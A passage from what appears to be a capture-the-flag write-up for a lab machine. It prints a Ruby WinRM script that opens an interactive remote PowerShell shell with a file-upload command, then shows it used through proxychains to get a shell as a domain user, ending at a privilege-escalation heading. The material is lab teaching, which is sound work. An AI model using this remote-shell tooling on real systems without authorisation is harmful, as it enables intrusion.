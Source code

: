     file_manager = WinRM::FS::FileManager.new(conn)
    
    
    class String
      def tokenize
        self.
          split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
          select {|s| not s.empty? }.
          map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
      end
    end
    
    
    command=""
    
    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi -force $pwd).Name),'> ')")
            print(output.output.chomp)
            command = gets
            if command.start_with?('UPLOAD') then
                upload_command = command.tokenize
                print("Uploading " + upload_command[1] + " to " + upload_command[2])
                file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|                                                                                                         
                    puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
                end
                command = "echo `nOK`n"
            end
    
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print(stdout)
                STDERR.print(stderr)
            end
        end
        puts("Exiting with code #{output.exitcode}")
    end
    

Now I can connect and get a shell as simple:

    
    
    root@kali# proxychains ruby winrm_shell_with_upload.rb
    ProxyChains-3.1 (http://proxychains.sf.net)
    PS hackback\simple@HACKBACK scripts> whoami
    hackback\simple 
    

## Privesc To hacker

### Shell Capabilities

#### PowerShell Language Mode

